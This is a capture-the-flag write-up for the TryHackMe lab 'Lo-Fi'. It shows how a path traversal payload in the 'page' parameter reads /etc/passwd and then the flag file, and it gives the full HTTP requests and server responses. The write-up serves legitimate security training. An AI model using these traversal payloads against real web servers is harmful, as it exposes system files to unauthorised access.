 ```yaml
---
title: "Lo-Fi"
date: 2025-01-20
image: /assets/img/tryhackme/Lofi/Lofi_image.jpg
description: Writeup of the TryHackMe-CTF Lo-Fi
categories: [Tryhackme, Easy]
tags: [linux, web, file-inclusion]
---
```


## Challenge Description
<center>
<table>
  <tr>
    <td>Plattform</td>
    <td>TryHackMe</td>
  </tr>
  <tr>
    <td>Name</td>
    <td>Lo-Fi</td>
  </tr>
  <tr>
    <td>Description</td>
    <td>Want to hear some lo-fi beats, to relax or study to? We've got you covered!</td>
  </tr>
  <tr>
    <td>Difficulty</td>
    <td>Easy</td>
  </tr>
  <tr>
    <td>OS</td>
    <td>Linux</td>
  </tr>
  <tr>
    <td>Link</td>
    <td><a href="https://tryhackme.com/r/room/lofi">https://tryhackme.com/r/room/lofi</a></td>
  </tr>
</table>
</center>

This writeup is a possible solution of the CTF-challenge Lo-Fi.  

## Challenge
The description gives us two hints what we need to do. 
1. Navigate to the following url http://MACHINE_IP and find the flag in the root of the filesystem.
2. Check out similar content on TryHackMe: <a href="https://tryhackme.com/r/room/filepathtraversal">LFI Path Traversal</a>

This seems to be a Path Traversal vulnerability in the Website. Start up Burpsuite and open the website in the browser.
From here we need to find parameters which we could manipulate.
After simply interacting with the website we can see the usage of the parameter `page` which loads `php` files:

![command execution page](/assets/img/tryhackme/Lofi/thm_lofi_1.jpg){: width="1200" height="195" .w-75 .normal}

Let's try inject the simple payload `../../../../../../../../../../../etc/passwd` in the request:
```http
GET /?page=../../../../../../../../../../../etc/passwd HTTP/1.1
Host: 10.10.39.143
Cache-Control: max-age=0
Accept-Language: en-US
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.6478.127 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
```
The result confirm the payload is working:
```html
      <!-- Blog Post -->
        <div class="card mb-4">
          <div class="card-body">
            root:x:0:0:root:/root:/bin/bash
            daemon:x:1:1:daemon:/usr/sbin:/bin/sh
            bin:x:2:2:bin:/bin:/bin/sh
            sys:x:3:3:sys:/dev:/bin/sh
            sync:x:4:65534:sync:/bin:/bin/sync
            games:x:5:60:games:/usr/games:/bin/sh
            man:x:6:12:man:/var/cache/man:/bin/sh
            lp:x:7:7:lp:/var/spool/lpd:/bin/sh
            mail:x:8:8:mail:/var/mail:/bin/sh
            news:x:9:9:news:/var/spool/news:/bin/sh
            uucp:x:10:10:uucp:/var/spool/uucp:/bin/sh
            proxy:x:13:13:proxy:/bin:/bin/sh
            www-data:x:33:33:www-data:/var/www:/bin/sh
            backup:x:34:34:backup:/var/backups:/bin/sh
            list:x:38:38:Mailing List Manager:/var/list:/bin/sh
            irc:x:39:39:ircd:/var/run/ircd:/bin/sh
            gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh
            nobody:x:65534:65534:nobody:/nonexistent:/bin/sh
            libuuid:x:100:101::/var/lib/libuuid:/bin/sh
          </div>
        </div>
```
From here we can try to search the flag:
```http
GET /?page=../../../../../../../../../../../flag.txt HTTP/1.1
Host: 10.10.39.143
Cache-Control: max-age=0
Accept-Language: en-US
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.6478.127 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
```
found the flag:
```html
      <!-- Blog Post -->
        <div class="card mb-4">
          <div class="card-body">
            flag{*********** removed ***********}
          </div>
        </div>
```
solved! :)
